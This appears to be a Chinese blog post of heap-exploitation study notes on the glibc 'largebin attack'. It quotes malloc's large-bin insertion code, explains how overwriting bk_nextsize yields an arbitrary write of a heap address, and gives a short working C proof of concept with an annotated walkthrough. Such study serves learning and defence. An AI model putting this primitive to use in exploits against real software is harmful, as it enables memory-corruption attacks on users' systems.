 ```yaml
---
redirect_from: /_posts/2018-07-03-%E8%AF%91%E7%A0%81%E6%98%BE%E7%A4%BA%E7%94%B5%E8%B7%AF/
title: largebin_attack
tags: heap
---
```


## 源码
```c
    victim_index = largebin_index (size);
    bck = bin_at (av, victim_index);
    fwd = bck->fd;
assert (chunk_main_arena (bck->bk));
if ( size < chunksize_nomask (bck->bk)) //size 最小
{
       fwd = bck; //因为是相对于 victim 的结构所以这个要换一下 bck, fwd 来原本 bck 的位置
       bck = bck->bk; 

       victim->fd_nextsize = fwd->fd; 
       victim->bk_nextsize = fwd->fd->bk_nextsize;
       fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; /*先进行右值运算，如果在没有进行修改的情况下，等式可以化简为 fwd-> fd-> bk_nextsize = victim，也就是最大堆块的 bk_nextsize 指向我们的最小堆块 victim*/
}
```
## 利用
能修改一个 lager bin 的 bk_nextsize，且可以放进 lagebin 里一个比该 bin 小的 unsorted bin，然后就可以任意地址写一个 heap 地址(此时 size 的位置是控制不了的)
poc
```c
#include<stdio.h>
#include<stdlib.h>
#include<assert.h>
int main(){
    size_t target=0xffffffffffffffff;

    size_t *bigger = malloc(0x428);
    malloc(0x18);
    size_t *smaller = malloc(0x418);
    malloc(0x18);
    free(bigger);
    malloc(0x438); 
    free(smaller);
    bigger[3] = (size_t)((&target)-4);
    size_t *g4 = malloc(0x438); //放进 lagebin 里一个比该 bin 小的 unsorted bin
    assert((size_t)(smaller-2) == target);
    return 0;
}
```
此时的源码状态
```c
if ( size < chunksize_nomask (bck->bk)) //size 最小
{
       fwd = bck; 
       bck = bck->bk; 
       /*此时：victim = smaller fwd-> fd = bigger */
       victim->fd_nextsize = fwd->fd; 
       victim->bk_nextsize = fwd->fd->bk_nextsize; //target 写入 victim-> bk_nextsize
       fwd->fd->bk_nextsize = victim; 
       victim->bk_nextsize->fd_nextsize = victim;  //victim 写入 target
}
```

顺便附上一张自己画的 largebin 的图

![](https://raw.githubusercontent.com/4ak5ra/image/main/屏幕截图 2025-04-24 131253.png)
